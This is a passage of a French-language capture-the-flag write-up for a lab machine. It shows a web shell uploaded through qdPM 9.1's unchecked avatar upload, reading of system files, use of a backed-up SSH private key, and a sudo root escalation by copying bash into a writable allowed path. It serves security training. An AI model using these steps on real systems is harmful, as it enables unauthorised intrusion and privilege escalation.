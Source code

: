 Avec le dernier et le mot de passe `qdpm` je parviens finalement à me connecter sur l'application.  

Lumber Jack
-----------

Sur [exploit-db](https://www.exploit-db.com/exploits/48460) on trouve la description d'une vulnérabilité pour *qdPM 9.1*. Il n'y a pas de code d'exploitation et pour cause, il suffit d'uploader un script PHP une fois authentifié en abusant la fonctionnalité de sélection d'un avatar qui ne vérifie pas les extensions de fichier.  

Une fois mon shell PHP uploadé un petit click droit me permet de retrouver son emplacement : `/project_management/uploads/users/179373-shell.php`  

Je remarque deux utilisateurs non privilégiés sur le système :  

```
ch33s3m4n:x:1000:1000:ch33s3m4n,,,:/home/ch33s3m4n:/bin/bash 
crab:x:1001:1001::/home/crab:/bin/bash
```

Le dernier dispose d'une TODO list intéressante :  

```console
www-data@cheeseyjack:/var/www/html/project_management/uploads/users$ cat /home/crab/todo.txt  
1. Scold cheese for weak qdpm password (done) 
2. Backup SSH keys to /var/backups 
3. Change cheese's weak password 
4. Milk 
5. Eggs 
6. Stop putting my grocery list on my todo lists
```

Il y a en effet un fichier `key.bak` dans `/var/backups` qui correspond à la clé privée de cet utilisateur. Abusons-en !  

Une fois connecté on remarque que l'utilisateur a des droits sudo pour un dossier sur lequel on a le contrôle :  

```console
crab@cheeseyjack:~$ sudo -l 
Matching Defaults entries for crab on cheeseyjack: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User crab may run the following commands on cheeseyjack: 
    (ALL : ALL) ALL 
    (root) NOPASSWD: /home/crab/.bin/

crab@cheeseyjack:~$ ls -l /home/crab/.bin/ping 
-rwxr-xr-x 1 crab crab 72776 Sep 24  2020 /home/crab/.bin/ping
crab@cheeseyjack:~$ cp /bin/bash /home/crab/.bin/ping 
crab@cheeseyjack:~$ sudo /home/crab/.bin/ping -p 
root@cheeseyjack:/home/crab# id 
uid=0(root) gid=0(root) groups=0(root) 
root@cheeseyjack:/home/crab# cd /root 
root@cheeseyjack:~# ls 
root.txt 
root@cheeseyjack:~# cat root.txt  
                    ___ _____ 
                   /\ (_)    \ 
                  /  \      (_, 
                 _)  _\   _    \ 
                /   (_)\_( )____\ 
                \_     /    _  _/ 
                  ) /\/  _ (o)( 
                  \ \_) (o)   / 
                   \/________/     

WOWWEEEE! You rooted my box! Congratulations. If you enjoyed this box there will be more coming. 
```